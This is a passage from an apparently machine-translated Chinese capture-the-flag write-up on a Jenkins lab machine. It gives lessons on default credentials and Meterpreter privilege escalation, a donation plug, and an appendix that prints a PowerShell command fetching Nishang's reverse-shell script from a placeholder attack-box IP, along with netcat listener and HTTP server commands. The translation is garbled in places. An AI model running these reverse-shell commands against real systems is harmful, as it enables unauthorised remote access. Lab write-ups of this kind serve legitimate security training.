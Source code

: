 # 结论

这个房间相当有趣。我了解了 existence Jenkins 应用程序，并有机会尝试一种交付 Meterpreter 有效负载的新技术，这种技术不同于使用手动将 Meterpreter 可执行文件传输到目标系统的“传统”方法。

记住，对于任何对通过 Nishang 方法获得 Meterpreter shell 感兴趣的人，请查看附录。

## 外卖食品

1.  有时目标应用程序不在主 web 服务器上。
2.  总是尝试使用默认的登录凭证，因为与暴力破解相比，它可以节省很多时间；-)
3.  并不总是需要内核漏洞。用户可以使用`incognito`模块提升权限。
4.  与`multi/handler`和`msfvenom`方法相比,`web_delivery`有效载荷交付更快、更容易执行；-)

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)

# 附录:通过霓裳反转外壳

在这篇文章中，我使用 Metasploit 的`web_delivery`模块立即获得了一个 PowerShell。然而，房间建议通过尼尚的`Invoke-PowerShellTcp.ps1`剧本([米塔尔和梅尔穆尔，n.d.](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) )得到一个反向外壳。房间给出了要在 boot2root 机器上执行的以下命令:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<attackbox ip>:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attackbox ip> -Port 4444
```

**注意，* ***单引号*** *应与* `DownloadString` *函数一起使用，* ***不能用双引号*** 。如果使用单引号，该命令将不起作用。

这将指示 boot2root 计算机下载`Invoke-PowerShellTcp.ps1`脚本，然后使用其功能创建我的攻击箱的反向外壳。

在让 Jenkins 执行这个命令之前，我必须在我的 AttackBox 上启动一个 Python HTTP 服务器，它将服务于`Invoke-PowerShellTcp.ps1`脚本。我使用下面的命令做到了这一点，该命令位于带有`Invoke-PowerShellTcp.ps1` PowerShell 脚本的工作目录中:

```
**$ python3 -m http.server 8888** Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

我还在我的 AttackBox 上设置了一个反向 *netcat* 监听器，使用以下命令监听 PowerShell 反向 Shell:

```
**$ nc -l -v -n -p 4444** listening on [any] 4444 ...
```

当利用 Jenkins 面板时，可以用 PowerShell 命令代替 Metasploit 的`web_delivery`模块给出的命令。这样做之后，应该会收到类似如下的内容:

```
listening on [any] 4444 …
connect to [attackbox ip] from (UNKNOWN) [boot2root ip] 49256
Windows PowerShell running as user bruce on ALFRED
Copyright © 2015 Microsoft Corporation. All rights reserved.**PS C:\Program Files (x86)\Jenkins\workspace\project>**
```
